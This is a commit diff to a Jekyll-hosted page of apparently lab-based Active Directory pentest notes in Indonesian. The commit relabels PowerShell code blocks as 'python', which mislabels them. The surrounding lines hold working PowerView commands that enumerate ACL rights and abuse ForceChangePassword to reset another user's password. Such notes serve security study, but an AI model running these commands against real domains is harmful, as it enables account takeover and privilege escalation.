

Before and after one commit to sahabrifki/sahabrifki.github.io, a Jekyll site: the page built from AD/ACL.md, in a window 1280 px wide and 1400 px high, scrolled down 718 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
Update ACL.md

`````diff
--- a/AD/ACL.md
+++ b/AD/ACL.md
@@ -31,7 +31,8 @@
 
 ### ForceChangePassword
 #### using Get-DomainObjectACL
-````
+
+```python
 Import-Module .\PowerView.ps1
 $sid = Convert-NameToSid wley
 Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
@@ -42,11 +43,11 @@
 
 # ObjectAceType with above value meaning for Force-change-password
 (https://learn.microsoft.com/id-id/windows/win32/adschema/r-user-force-change-password)
-````
+```
 
 
 #### Using -ResolveGUIDs Flag
-```powershell
+```python
 Import-Module .\PowerView.ps1
 $sid = Convert-NameToSid wley
 Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
@@ -58,7 +59,7 @@
 ```
 
 #### Enumerate All User
-```powershell
+```python
 Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
 foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
 
@@ -69,13 +70,13 @@
 
 1. Store Password user kita ke powershell credential
 
-```powershell
+```python
    PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD Kita >' -AsPlainText -Force
    PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
 ```
 
 3. Kemudian create password dari user target (eg disini user damundsen yang bisa kita ganti)
-```powershell
+```python
 PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
 PS C:\htb> Import-Module .\PowerView.ps1
 PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
@@ -83,7 +84,7 @@
 
 #### Generic Write
 
-```powershell
+```python
 # Generic All Enumeration
 $sid2 = Convert-NameToSid damundsen
 Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose
`````
